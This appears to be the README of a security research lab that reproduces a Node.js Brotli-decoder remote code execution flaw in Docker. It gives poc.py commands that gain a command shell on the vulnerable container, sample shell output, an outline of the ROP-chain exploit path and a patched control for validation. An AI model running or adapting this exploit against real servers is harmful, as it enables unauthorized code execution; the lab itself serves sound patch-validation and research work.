




<div align="center">



# Node2Shell Local Reproduction Lab

**A reproducible CVE-2026-111497 RCE lab using Node.js v24.22.0, with Node.js v24.22.1 as the patched control.**

[](#verified-results)
[](#patched-negative-control)
[](#lab-architecture)
[](#safety-boundaries)

[Start the lab](#start-the-lab) · [How it works](#how-it-works) · [Results](#verified-results) · [Evidence](#test-evidence) · [Troubleshooting](#troubleshooting)

</div>

> [!CAUTION]
> This repository is a security research lab for systems you own or are
> explicitly authorized to test. The services bind only to loopback, and the
> PoC rejects non-loopback targets. Do not remove these restrictions or use the
> code against third-party systems without written authorization.

## Overview

Node2Shell is a remote code execution path through the Brotli decoder bundled
with Node.js. This repository provides a repeatable A/B reproduction:

| Target | Runtime | Address | Purpose |
|---|---|---|---|
| `node2shell-vuln` | Node.js `v24.22.0` | `127.0.0.1:3000` | Demonstrate RCE |
| `node2shell-fixed` | Node.js `v24.22.1` | `127.0.0.1:3002` | Patched negative control |

The PoC sends a specially constructed Brotli-encoded HTTP body to a bulk import
endpoint. On the vulnerable runtime, an out-of-bounds write primitive redirects
execution into a ROP chain. The chain can return `/usr/bin/id` output directly,
or execute the lab's `/activate` helper and unlock a one-run, target-backed
command shell. The same payload does not achieve code execution on the patched
runtime.

## Lab features

- The vulnerable image is pinned by digest for reproducibility.
- A separate patched target provides a direct A/B comparison.
- Both Docker ports are published only on `127.0.0.1`.
- `poc.py` accepts only `127.0.0.1`, `localhost`, or `::1`.
- Containers run as the unprivileged `node` user.
- ASLR remains enabled and is verified by `labcheck.sh`.
- The default proof runs only `/usr/bin/id` and returns stdout on the same
  socket.
- `--shell` provides an interactive command console backed by the exploited
  target. It uses a random one-run token, has a 10-second command timeout, and
  revokes the token when the session closes.
- No reverse-shell or outbound callback functionality is included.
- Test output is preserved under `evidence/`.

## Lab architecture



## Requirements

- Linux `x86_64`, including Kali Linux under WSL2.
- A running Docker Engine accessible to the current user.
- Python 3.
- Local ports `3000` and `3002` must be available.

Check the environment:

```bash
uname -m
docker info >/dev/null
python3 --version
ss -ltn | grep -E ':(3000|3002)\b' || true
```

## Start the lab

```bash
git clone https://github.com/zake1god/node2shell.git
cd node2shell
./run.sh
```

If executable bits were lost while moving files across filesystems:

```bash
chmod u+x run.sh labcheck.sh verify-lab.sh
```

Confirm both runtimes:

```bash
curl -s http://127.0.0.1:3000/api/v1/version; echo
curl -s http://127.0.0.1:3002/api/v1/version; echo
```

Expected output:

```json
{"service":"orbital","node":"v24.22.0"}
{"service":"orbital","node":"v24.22.1"}
```

## Automated verification

The following command checks the runtime configuration, verifies ASLR, proves
RCE by opening and exercising the target-backed command shell, and runs 32
identical shell-activation attempts against the patched target:

```bash
./verify-lab.sh
```

The patched control takes approximately two minutes because every attempt waits
long enough to confirm that the worker did not crash.

The verification passes only when:

1. the lab configuration checks succeed;
2. both shell endpoints return HTTP 403 before exploitation;
3. ROP executes `/activate` on Node.js `v24.22.0`;
4. the unlocked target console runs `whoami`, `id`, `pwd`, changes to `/tmp`,
   and executes a marker command;
5. the one-run token is revoked when the session closes;
6. the identical activation payload fails in 32 attempts on `v24.22.1`; and
7. both services remain healthy after testing.

## Manual reproduction

### 1. Validate the target configuration

```bash
./labcheck.sh node2shell-vuln
```

The check reports:

- the Node.js version;
- process UID and GID;
- Node binary type;
- the current `randomize_va_space` value; and
- two libc base addresses from separate worker lifetimes.

The changing base address demonstrates that ASLR was not disabled to make the
exploit easier.



### 2. Open an interactive shell on the vulnerable runtime

```bash
python3 ./poc.py --port 3000 --shell
```

After the probabilistic ROP stage lands, the prompt is backed by commands
executing inside `node2shell-vuln` as the unprivileged `node` user:

```text
[+] TARGET-BACKED COMMAND SHELL ACTIVE
    endpoint: http://127.0.0.1:3000/api/v1/shell
    identity: node

node@node2shell:/app$ whoami
node

node@node2shell:/app$ id
uid=1000(node) gid=1000(node) groups=1000(node)

node@node2shell:/app$ cd /tmp

node@node2shell:/tmp$ pwd
/tmp
```

Type `exit` or `quit` to close the console and revoke its token.

For a non-interactive multi-command proof, use:

```bash
python3 ./poc.py --port 3000 --validate-shell
```

### 3. Run the direct command proof

```bash
python3 ./poc.py --port 3000 --exec /usr/bin/id
```

Exploitation is probabilistic. Between misses, the PoC crash-resets the worker
to obtain a new ASLR layout and retries up to 32 times.

A successful run looks like this:

```text
[+] RCE CONFIRMED  (100%, after 3 attempt(s))
    `/usr/bin/id` ran on the target; stdout on the exploit socket:
        uid=1000(node) gid=1000(node) groups=1000(node)
```



### 4. Patched negative control

```bash
python3 ./poc.py --port 3002 --validate-shell --attempts 32
```

Expected result:

```text
[-] FAIL: RCE did not land in 32 attempts
```

For the patched target, `FAIL` is the correct control result: the PoC did not
obtain code execution. The process exits with status `1`.

## Verified results

Local verification performed on October 27, 2026 produced the following
results:

| Test | Result |
|---|---|
| Direct active-shell run against `v24.22.0` | Succeeded after 2 attempts |
| End-to-end `verify-lab.sh` active-shell run | Succeeded after 24 attempts |
| Shell identity | `uid=1000(node) gid=1000(node) groups=1000(node)` |
| Stateful working directory | Changed from `/app` to `/tmp` |
| Shell marker | `NODE2SHELL_ACTIVE_SHELL` |
| Token lifecycle | Locked before RCE; revoked after session close |
| `v24.22.1` control | No activation or RCE in 32 attempts |
| ASLR | Enabled; libc base changed across worker lifetimes |
| Network exposure | Loopback only |

See [`RESULTS.md`](./RESULTS.md) for the complete local verification summary.

## Test evidence

| File | Contents |
|---|---|
| [`evidence/runtime.txt`](./evidence/runtime.txt) | Container state, port bindings, and runtime versions |
| [`evidence/labcheck-vulnerable.txt`](./evidence/labcheck-vulnerable.txt) | Process privileges, binary type, and ASLR status |
| [`evidence/poc-vulnerable.txt`](./evidence/poc-vulnerable.txt) | First successful RCE run |
| [`evidence/poc-vulnerable-verify.txt`](./evidence/poc-vulnerable-verify.txt) | Second successful RCE run |
| [`evidence/poc-patched-32-attempt-control.txt`](./evidence/poc-patched-32-attempt-control.txt) | 32-attempt patched control |
| [`evidence/active-shell-vulnerable.txt`](./evidence/active-shell-vulnerable.txt) | RCE, shell activation, multiple commands, and working-directory state |
| [`evidence/active-shell-patched-control.txt`](./evidence/active-shell-patched-control.txt) | Identical shell-activation payload rejected in 32 patched attempts |
| [`evidence/shell-lock-state.txt`](./evidence/shell-lock-state.txt) | HTTP 403 before RCE and after token revocation |

## How it works

1. `poc.py` builds the Brotli trigger stream and ROP prefix.
2. The payload is delivered as a chunked HTTP request using two writes.
3. The first write parks the decoder in the required state.
4. The second write resumes decoding and triggers a write outside the ring
   buffer.
5. On the vulnerable build, a matching layout guess redirects execution into
   the ROP chain and calls `execvp()` with either `/usr/bin/id` or `/activate`.
6. `/activate` is a small ELF helper built from `app/activate-shell.c`. It
   creates a random token inside the container and returns that token only on
   the exploit socket.
7. After the worker restarts, the token unlocks `/api/v1/shell`. Commands run
   on the target as `uid=1000(node)`; the client revokes the token on exit.
8. If the ASLR guess misses, the worker crashes and the supervisor starts a new
   worker.
9. On the patched build, the corrupted state cannot reach the execution path,
   and the console is disabled independently by `LAB_VARIANT=fixed`.

For a deeper technical explanation, read
[`docs/analysis.md`](./docs/analysis.md).

## Repository structure

```text
node2shell/
├── app/                    # Express target application
│   └── activate-shell.c    # RCE-only, one-run shell-token helper
├── assets/
│   ├── node2shell-hero-teal.png # Active GitHub README banner
│   └── node2shell-hero.png      # Previous color variant
├── docs/
│   └── analysis.md         # Technical analysis
├── evidence/               # Captured verification output
├── Dockerfile              # Vulnerable/patched image via NODE_IMAGE
├── docker-compose.yml      # Loopback-only A/B bindings
├── run.sh                  # Builds and starts both targets
├── labcheck.sh             # Checks ASLR and process privileges
├── verify-lab.sh           # End-to-end A/B verification
├── poc.py                  # Loopback-only PoC
├── build_profile.py        # Optional gadget profile builder
└── RESULTS.md              # Local verification summary
```

## Useful PoC options

```bash
python3 ./poc.py --help
```

| Option | Purpose |
|---|---|
| `--port 3000` | Select the vulnerable target |
| `--port 3002` | Select the patched target |
| `--attempts N` | Set the number of attempts |
| `--exec /usr/bin/id` | Select one absolute binary path without arguments |
| `--shell` | Open an interactive target-backed command console after RCE |
| `--shell-command 'id'` | Run one command through the activated console |
| `--validate-shell` | Run the automated multi-command and cwd-state proof |
| `--sweep` | Try lab profile position and file descriptor combinations |
| `--autoprofile NODE\|IMAGE` | Build a gadget profile from a local binary or image |
| `--quiet` | Print only the final result |

## Safety boundaries

The lab intentionally retains several layers of containment:

```text
Docker publish: 127.0.0.1 only
PoC resolver  : loopback allowlist only
Container UID : node (1000), non-root
Default proof : /usr/bin/id
Shell mode    : random one-run token, revoked on exit
Network egress: not required by the exploit
```

Do not remove the `resolve_loopback()` check or change Docker bindings to
`0.0.0.0` when publishing or demonstrating this repository.

## Troubleshooting

### Permission denied when running a script

```bash
chmod u+x run.sh labcheck.sh verify-lab.sh
```

Alternatively, invoke the script through Bash:

```bash
bash ./run.sh
```

### Port 3000 or 3002 is already in use

```bash
ss -ltnp | grep -E ':(3000|3002)\b'
docker ps --format '{{.Names}} {{.Ports}}'
```

Stop the conflicting service, or change the lab binding and the PoC `--port`
option consistently. Keep the service bound to loopback.

### The PoC did not land on the vulnerable target

This can happen because of ASLR and the exploit's probabilistic behavior. Run
the command again. If the host profile differs, review `--sweep` and
`--autoprofile` in `python3 poc.py --help`.

### The patched target prints `FAIL`

That is the expected result. `FAIL` means the PoC did not obtain RCE on the
patched runtime.

## Stopping the lab

```bash
docker rm -f node2shell-vuln node2shell-fixed
```

The locally built images remain available:

```bash
docker images 'node2shell*'
```

## Responsible use

This code is provided for education, patch validation, and security research in
environments you own or are explicitly authorized to test. Users are
responsible for complying with all applicable laws and policies.

## Credits and acknowledgements

Project implementation and presentation by **ZARXEC** for authorized security
research, reproducible validation, and defensive education.

With appreciation to the researchers and maintainers whose public work and
disclosures informed this project:

- [`Rabbitbong/node2shell`](https://github.com/Rabbitbong/node2shell), the
  upstream public proof of concept referenced at commit
  [`ea80cd5a94dd4722dda12aceb1e476f5059e3190`](https://github.com/Rabbitbong/node2shell/commit/ea80cd5a94dd4722dda12aceb1e476f5059e3190).
- [Node.js October 2026 Security Releases](https://nodejs.org/en/blog/vulnerability/october-2026-security-releases),
  the upstream security advisory and patched-version reference.
- [Imperva: Node2Shell, From Brotli Data to Remote Code Execution](https://www.imperva.com/blog/node2shell-from-brotli-data-to-remote-code-execution/),
  the public technical analysis used as a research reference.

Additional project-specific reproduction notes are documented in the
[local technical analysis](./docs/analysis.md). This attribution is retained to
recognize the original research, public disclosures, and technical references
that made this lab possible.
